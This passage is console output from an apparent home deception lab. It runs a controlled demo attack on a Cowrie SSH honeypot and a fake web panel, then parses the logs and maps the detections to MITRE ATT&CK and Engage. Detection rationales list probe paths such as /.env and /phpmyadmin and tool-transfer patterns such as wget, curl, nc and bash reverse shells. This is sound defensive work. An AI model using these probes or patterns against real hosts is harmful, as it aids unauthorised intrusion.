-rw-rw-r-- 1 lss lss 2.3K May 26 21:56 engage_coverage.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:56 mapping_summary.json

[+] Mapping report:
-rw-rw-r-- 1 lss lss 2.4K May 26 21:56 /opt/deception-lab/reports/mapping_report.md

[+] Mapping summary:
{
  "attack_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "defined_detection_rules": 8,
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 9,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 55
  },
  "engage_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "generated_at": "2026-05-26T13:56:48.451897+00:00",
  "input_detections": "/opt/deception-lab/data/events/detections.jsonl",
  "per_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": {
      "attack": {
        "rationale": "The attacker used a credential intentionally planted in deception assets. This indicates exposure to unsecured credential material.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 1,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "A planted SSH credential caused the adversary to reveal credential-use behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Attempting to read honeyfiles such as secrets.txt or backup_config.ini indicates interest in local sensitive data.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 2,
      "engage": {
        "activity": "Reveal Adversary Intent",
        "goal": "Elicit",
        "rationale": "Honeyfile access attempts reveal interest in sensitive files, backup data, credentials, and local configuration.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_LOGIN_FAILED": {
      "attack": {
        "rationale": "Failed SSH authentication attempts against the honeypot indicate password guessing or brute-force behavior.\n",
        "tactic": "Credential Access",
        "technique": "Brute Force",
        "technique_id": "T1110"
      },
      "detections": 9,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The SSH honeypot exposes a fake login surface for observing authentication attempts.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_RECON_COMMAND": {
      "attack": {
        "rationale": "Commands such as whoami, pwd, ls, uname, ip addr, ifconfig, ps, and netstat indicate post-login discovery activity.\n",
        "related_techniques": [
          "T1033 System Owner/User Discovery",
          "T1016 System Network Configuration Discovery",
          "T1057 Process Discovery"
        ],
        "tactic": "Discovery",
        "technique": "System Information Discovery",
        "technique_id": "T1082"
      },
      "detections": 3,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Commands entered after login reveal adversary discovery interests and operating style.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_TOOL_TRANSFER_COMMAND": {
      "attack": {
        "rationale": "Commands such as wget, curl, ftp, scp, chmod, nc, or bash reverse shell patterns may indicate tool staging or payload transfer.\n",
        "tactic": "Command and Control",
        "technique": "Ingress Tool Transfer",
        "technique_id": "T1105"
      },
      "detections": 2,
      "engage": {
        "activity": "Adversary Direction",
        "goal": "Affect",
        "rationale": "A decoy shell can influence attacker behavior and redirect tool staging activity into a controlled observation environment.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYCREDENTIAL_USED": {
      "attack": {
        "rationale": "Submitting a planted credential to the fake web login panel indicates the adversary discovered and attempted to use unsecured credentials.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 7,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "Planted web credentials elicit credential reuse behavior against the fake admin panel.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Downloading honeyfiles from the fake web panel indicates attempted collection of local or exposed files.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 11,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Honeyfile download behavior helps identify the attacker's collection interests.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_SCANNER_PROBE": {
      "attack": {
        "rationale": "Requests to paths such as /.env, /wp-admin, /phpmyadmin, or /admin indicate web probing or scanning behavior.\n",
        "tactic": "Reconnaissance",
        "technique": "Active Scanning",
        "technique_id": "T1595"
      },
      "detections": 55,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The fake web interface exposes probeable paths to observe scanner behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    }
  },
  "total_detections": 90,
  "triggered_detection_rules": [
    "SSH_HONEYCREDENTIAL_LOGIN",
    "SSH_HONEYFILE_ACCESS",
    "SSH_LOGIN_FAILED",
    "SSH_RECON_COMMAND",
    "SSH_TOOL_TRANSFER_COMMAND",
    "WEB_HONEYCREDENTIAL_USED",
    "WEB_HONEYFILE_ACCESS",
    "WEB_SCANNER_PROBE"
  ]
}

[+] Generating timeline and final reports...
/opt/deception-lab/parser/generate_timeline.py:93: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  lines.append(f"Generated at: {datetime.utcnow().isoformat()}Z")
[+] Timeline written to: /opt/deception-lab/reports/timeline.md
[+] Markdown report written to: /opt/deception-lab/reports/report.md
[+] JSON report written to: /opt/deception-lab/reports/report.json

[+] Report files:
total 92K
drwxrwxr-x  2 lss lss 4.0K May 22 03:11 .
drwxrwxr-x 11 lss lss 4.0K May 26 21:56 ..
-rw-rw-r--  1 lss lss 2.4K May 26 21:56 mapping_report.md
-rw-rw-r--  1 lss lss  13K May 26 21:56 report.json
-rw-rw-r--  1 lss lss 5.9K May 26 21:56 report.md
-rw-rw-r--  1 lss lss  53K May 26 21:56 timeline.md

[+] Report generation completed.
Main report: /opt/deception-lab/reports/report.md
Timeline:    /opt/deception-lab/reports/timeline.md
JSON report: /opt/deception-lab/reports/report.json

[6] Quick verification
[+] Event files:
total 156K
-rw-rw-r-- 1 lss lss 3.1K May 26 21:56 attack_coverage.json
-rw-rw-r-- 1 lss lss  57K May 26 21:56 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 21:56 engage_coverage.json
-rw-rw-r-- 1 lss lss  74K May 26 21:56 events.jsonl
-rw-rw-r-- 1 lss lss  759 May 26 21:56 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:56 mapping_summary.json

[+] Current event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 9,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 55
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 67
  },
  "events_by_source": {
    "cowrie": 29,
    "fake-web": 188
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 10,
    "ssh_login_failed": 9,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 24,
    "web_request": 153
  },
  "generated_at": "2026-05-26T13:56:48.374766+00:00",
  "total_detections": 90,
  "total_events": 217
}

============================================================
[DONE] Demo attack flow completed.
============================================================
[+] Refresh Streamlit Dashboard:
    http://127.0.0.1:8501

[+] Key output files:
    /opt/deception-lab/data/events/events.jsonl
    /opt/deception-lab/data/events/detections.jsonl
    /opt/deception-lab/data/events/events_summary.json
    /opt/deception-lab/data/events/mapping_summary.json
    /opt/deception-lab/data/events/attack_coverage.json
    /opt/deception-lab/data/events/engage_coverage.json
    /opt/deception-lab/reports/report.md
    /opt/deception-lab/reports/report.json
    /opt/deception-lab/reports/timeline.md
============================================================
```
- 或如果你想從 LAN IP 展示：嘗試攻擊遠端主機(192.168.1.164)
```
/opt/deception-lab/scripts/demo_attack.sh 192.168.1.164
執行結果：同攻擊本機內容
lss@lss:/opt/deception-lab $ /opt/deception-lab/scripts/demo_attack.sh 192.168.1.164
============================================================
 Deception Lab Controlled Demo Attack
============================================================
[*] Target IP:        192.168.1.164
[*] Fake Web Admin:   http://192.168.1.164:8080
[*] Cowrie SSH Port:  2222
[*] Dashboard:        http://192.168.1.164:8501
============================================================

[0] Pre-flight checks
[+] Pre-flight checks completed.

[1] Access fake web admin
[+] GET / -> HTTP 302
[+] GET /login -> HTTP 200

[2] Submit fake login attempt / honeycredential
[+] POST /login admin credential -> HTTP 200

[3] Touch honeyfile-like and scanner-like paths
[+] GET /backup.zip -> HTTP 404
[+] GET /secrets.txt -> HTTP 404
[+] GET /.env -> HTTP 404
[+] GET /admin -> HTTP 302
[+] GET /wp-admin -> HTTP 404
[+] GET /phpmyadmin -> HTTP 404
[+] GET /server-status -> HTTP 404
[+] GET /actuator/env -> HTTP 404

[4] Trigger controlled Cowrie SSH login attempt
Warning: Permanently added '[192.168.1.164]:2222' (ED25519) to the list of known hosts.
Permission denied, please try again.
[+] SSH attempt completed.
[i] Permission denied is acceptable if Cowrie records failed login behavior.

[5] Regenerate parser/report outputs
[+] Running parser...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260526T140001Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 132K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  371 May 26 22:00 collection_summary.txt
-rw-rw-r-- 1 lss lss  46K May 26 22:00 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 22:00 source_manifest.json
-rw-rw-r-- 1 lss lss  51K May 26 22:00 web_access.jsonl
-rw-rw-r-- 1 lss lss 9.8K May 26 22:00 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260526T140001Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 48K
  lines: 359
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 52K
  lines: 175
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 12K
  lines: 25
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 231
Total detections: 97

[+] Event output files:
total 172K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 21:56 attack_coverage.json
-rw-rw-r-- 1 lss lss  61K May 26 22:00 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 21:56 engage_coverage.json
-rw-rw-r-- 1 lss lss  79K May 26 22:00 events.jsonl
-rw-rw-r-- 1 lss lss  761 May 26 22:00 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:56 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 74
  },
  "events_by_source": {
    "cowrie": 31,
    "fake-web": 200
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 11,
    "ssh_login_failed": 10,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 25,
    "web_request": 164
  },
  "generated_at": "2026-05-26T14:00:02.105079+00:00",
  "total_detections": 97,
  "total_events": 231
}
[+] Running MITRE mapping...
[+] Running parser first to refresh detections...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260526T140002Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 132K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  371 May 26 22:00 collection_summary.txt
-rw-rw-r-- 1 lss lss  46K May 26 22:00 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 22:00 source_manifest.json
-rw-rw-r-- 1 lss lss  51K May 26 22:00 web_access.jsonl
-rw-rw-r-- 1 lss lss 9.8K May 26 22:00 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260526T140002Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 48K
  lines: 359
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 52K
  lines: 175
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 12K
  lines: 25
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 231
Total detections: 97

[+] Event output files:
total 172K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 21:56 attack_coverage.json
-rw-rw-r-- 1 lss lss  61K May 26 22:00 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 21:56 engage_coverage.json
-rw-rw-r-- 1 lss lss  79K May 26 22:00 events.jsonl
-rw-rw-r-- 1 lss lss  761 May 26 22:00 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 21:56 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 74
  },
  "events_by_source": {
    "cowrie": 31,
    "fake-web": 200
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 11,
    "ssh_login_failed": 10,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 25,
    "web_request": 164
  },
  "generated_at": "2026-05-26T14:00:02.307245+00:00",
  "total_detections": 97,
  "total_events": 231
}
[+] Running MITRE mapping analyzer...
[+] Mapping analysis completed.
[+] Mapping summary: /opt/deception-lab/data/events/mapping_summary.json
[+] ATT&CK coverage: /opt/deception-lab/data/events/attack_coverage.json
[+] Engage coverage: /opt/deception-lab/data/events/engage_coverage.json

Defined detection rules: 8
Total detections: 97
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%

[+] Generating mapping Markdown report...
[+] Mapping markdown report written to: /opt/deception-lab/reports/mapping_report.md

[+] Mapping output files:
-rw-rw-r-- 1 lss lss 3.1K May 26 22:00 attack_coverage.json
-rw-rw-r-- 1 lss lss 2.3K May 26 22:00 engage_coverage.json
-rw-rw-r-- 1 lss lss 6.3K May 26 22:00 mapping_summary.json

[+] Mapping report:
-rw-rw-r-- 1 lss lss 2.4K May 26 22:00 /opt/deception-lab/reports/mapping_report.md

[+] Mapping summary:
{
  "attack_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "defined_detection_rules": 8,
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "engage_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "generated_at": "2026-05-26T14:00:02.384477+00:00",
  "input_detections": "/opt/deception-lab/data/events/detections.jsonl",
  "per_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": {
      "attack": {
        "rationale": "The attacker used a credential intentionally planted in deception assets. This indicates exposure to unsecured credential material.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 1,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "A planted SSH credential caused the adversary to reveal credential-use behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Attempting to read honeyfiles such as secrets.txt or backup_config.ini indicates interest in local sensitive data.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 2,
      "engage": {
        "activity": "Reveal Adversary Intent",
        "goal": "Elicit",
        "rationale": "Honeyfile access attempts reveal interest in sensitive files, backup data, credentials, and local configuration.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_LOGIN_FAILED": {
      "attack": {
        "rationale": "Failed SSH authentication attempts against the honeypot indicate password guessing or brute-force behavior.\n",
        "tactic": "Credential Access",
        "technique": "Brute Force",
        "technique_id": "T1110"
      },
      "detections": 10,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The SSH honeypot exposes a fake login surface for observing authentication attempts.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_RECON_COMMAND": {
      "attack": {
        "rationale": "Commands such as whoami, pwd, ls, uname, ip addr, ifconfig, ps, and netstat indicate post-login discovery activity.\n",
        "related_techniques": [
          "T1033 System Owner/User Discovery",
          "T1016 System Network Configuration Discovery",
          "T1057 Process Discovery"
        ],
        "tactic": "Discovery",
        "technique": "System Information Discovery",
        "technique_id": "T1082"
      },
      "detections": 3,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Commands entered after login reveal adversary discovery interests and operating style.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_TOOL_TRANSFER_COMMAND": {
      "attack": {
        "rationale": "Commands such as wget, curl, ftp, scp, chmod, nc, or bash reverse shell patterns may indicate tool staging or payload transfer.\n",
        "tactic": "Command and Control",
        "technique": "Ingress Tool Transfer",
        "technique_id": "T1105"
      },
      "detections": 2,
      "engage": {
        "activity": "Adversary Direction",
        "goal": "Affect",
        "rationale": "A decoy shell can influence attacker behavior and redirect tool staging activity into a controlled observation environment.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYCREDENTIAL_USED": {
      "attack": {
        "rationale": "Submitting a planted credential to the fake web login panel indicates the adversary discovered and attempted to use unsecured credentials.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 7,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "Planted web credentials elicit credential reuse behavior against the fake admin panel.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Downloading honeyfiles from the fake web panel indicates attempted collection of local or exposed files.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 11,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Honeyfile download behavior helps identify the attacker's collection interests.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_SCANNER_PROBE": {
      "attack": {
        "rationale": "Requests to paths such as /.env, /wp-admin, /phpmyadmin, or /admin indicate web probing or scanning behavior.\n",
        "tactic": "Reconnaissance",
        "technique": "Active Scanning",
        "technique_id": "T1595"
      },
      "detections": 61,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The fake web interface exposes probeable paths to observe scanner behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    }
  },
  "total_detections": 97,
  "triggered_detection_rules": [
    "SSH_HONEYCREDENTIAL_LOGIN",
    "SSH_HONEYFILE_ACCESS",
    "SSH_LOGIN_FAILED",
    "SSH_RECON_COMMAND",
    "SSH_TOOL_TRANSFER_COMMAND",
    "WEB_HONEYCREDENTIAL_USED",
    "WEB_HONEYFILE_ACCESS",
    "WEB_SCANNER_PROBE"
  ]
}

[+] Generating final reports...
[+] Refreshing parser and mapping outputs...
[+] Running parser first to refresh detections...
[+] Collecting latest logs...
[+] Collecting logs at UTC time: 20260526T140002Z
[+] Exporting Cowrie Docker logs...
[+] Collecting Fake Web access log...
[+] Collecting Fake Web auth log...
[+] Creating source manifest...
[+] Creating collection summary...
[+] Archiving collected logs...

[+] Collection completed.
[+] Current collected directory:
total 132K
drwxrwxr-x 2 lss lss 4.0K May 15 07:18 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss  371 May 26 22:00 collection_summary.txt
-rw-rw-r-- 1 lss lss  46K May 26 22:00 cowrie-docker.log
-rw-rw-r-- 1 lss lss  579 May 15 07:18 README.md
-rw-rw-r-- 1 lss lss  777 May 26 22:00 source_manifest.json
-rw-rw-r-- 1 lss lss  51K May 26 22:00 web_access.jsonl
-rw-rw-r-- 1 lss lss 9.8K May 26 22:00 web_auth.jsonl

[+] Summary:
Collection time UTC: 20260526T140002Z

Collected files:

- /opt/deception-lab/data/collected/cowrie-docker.log
  size: 48K
  lines: 359
- /opt/deception-lab/data/collected/web_access.jsonl
  size: 52K
  lines: 175
- /opt/deception-lab/data/collected/web_auth.jsonl
  size: 12K
  lines: 25
- /opt/deception-lab/data/collected/source_manifest.json
  size: 4.0K
  lines: 26

[+] Running event parser...
[+] Parsing completed.
[+] Events written to: /opt/deception-lab/data/events/events.jsonl
[+] Detections written to: /opt/deception-lab/data/events/detections.jsonl
[+] Summary written to: /opt/deception-lab/data/events/events_summary.json

Total events: 231
Total detections: 97

[+] Event output files:
total 172K
drwxrwxr-x 2 lss lss 4.0K May 21 07:53 .
drwxrwxr-x 9 lss lss 4.0K May 22 03:50 ..
-rw-rw-r-- 1 lss lss 3.1K May 26 22:00 attack_coverage.json
-rw-rw-r-- 1 lss lss  61K May 26 22:00 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 22:00 engage_coverage.json
-rw-rw-r-- 1 lss lss  79K May 26 22:00 events.jsonl
-rw-rw-r-- 1 lss lss  761 May 26 22:00 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 22:00 mapping_summary.json

[+] Event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 74
  },
  "events_by_source": {
    "cowrie": 31,
    "fake-web": 200
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 11,
    "ssh_login_failed": 10,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 25,
    "web_request": 164
  },
  "generated_at": "2026-05-26T14:00:02.768189+00:00",
  "total_detections": 97,
  "total_events": 231
}
[+] Running MITRE mapping analyzer...
[+] Mapping analysis completed.
[+] Mapping summary: /opt/deception-lab/data/events/mapping_summary.json
[+] ATT&CK coverage: /opt/deception-lab/data/events/attack_coverage.json
[+] Engage coverage: /opt/deception-lab/data/events/engage_coverage.json

Defined detection rules: 8
Total detections: 97
ATT&CK mapping coverage: 100.0%
Engage mapping coverage: 100.0%

[+] Generating mapping Markdown report...
[+] Mapping markdown report written to: /opt/deception-lab/reports/mapping_report.md

[+] Mapping output files:
-rw-rw-r-- 1 lss lss 3.1K May 26 22:00 attack_coverage.json
-rw-rw-r-- 1 lss lss 2.3K May 26 22:00 engage_coverage.json
-rw-rw-r-- 1 lss lss 6.3K May 26 22:00 mapping_summary.json

[+] Mapping report:
-rw-rw-r-- 1 lss lss 2.4K May 26 22:00 /opt/deception-lab/reports/mapping_report.md

[+] Mapping summary:
{
  "attack_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "defined_detection_rules": 8,
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "engage_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "generated_at": "2026-05-26T14:00:02.847790+00:00",
  "input_detections": "/opt/deception-lab/data/events/detections.jsonl",
  "per_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": {
      "attack": {
        "rationale": "The attacker used a credential intentionally planted in deception assets. This indicates exposure to unsecured credential material.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 1,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "A planted SSH credential caused the adversary to reveal credential-use behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Attempting to read honeyfiles such as secrets.txt or backup_config.ini indicates interest in local sensitive data.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 2,
      "engage": {
        "activity": "Reveal Adversary Intent",
        "goal": "Elicit",
        "rationale": "Honeyfile access attempts reveal interest in sensitive files, backup data, credentials, and local configuration.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_LOGIN_FAILED": {
      "attack": {
        "rationale": "Failed SSH authentication attempts against the honeypot indicate password guessing or brute-force behavior.\n",
        "tactic": "Credential Access",
        "technique": "Brute Force",
        "technique_id": "T1110"
      },
      "detections": 10,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The SSH honeypot exposes a fake login surface for observing authentication attempts.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_RECON_COMMAND": {
      "attack": {
        "rationale": "Commands such as whoami, pwd, ls, uname, ip addr, ifconfig, ps, and netstat indicate post-login discovery activity.\n",
        "related_techniques": [
          "T1033 System Owner/User Discovery",
          "T1016 System Network Configuration Discovery",
          "T1057 Process Discovery"
        ],
        "tactic": "Discovery",
        "technique": "System Information Discovery",
        "technique_id": "T1082"
      },
      "detections": 3,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Commands entered after login reveal adversary discovery interests and operating style.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_TOOL_TRANSFER_COMMAND": {
      "attack": {
        "rationale": "Commands such as wget, curl, ftp, scp, chmod, nc, or bash reverse shell patterns may indicate tool staging or payload transfer.\n",
        "tactic": "Command and Control",
        "technique": "Ingress Tool Transfer",
        "technique_id": "T1105"
      },
      "detections": 2,
      "engage": {
        "activity": "Adversary Direction",
        "goal": "Affect",
        "rationale": "A decoy shell can influence attacker behavior and redirect tool staging activity into a controlled observation environment.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYCREDENTIAL_USED": {
      "attack": {
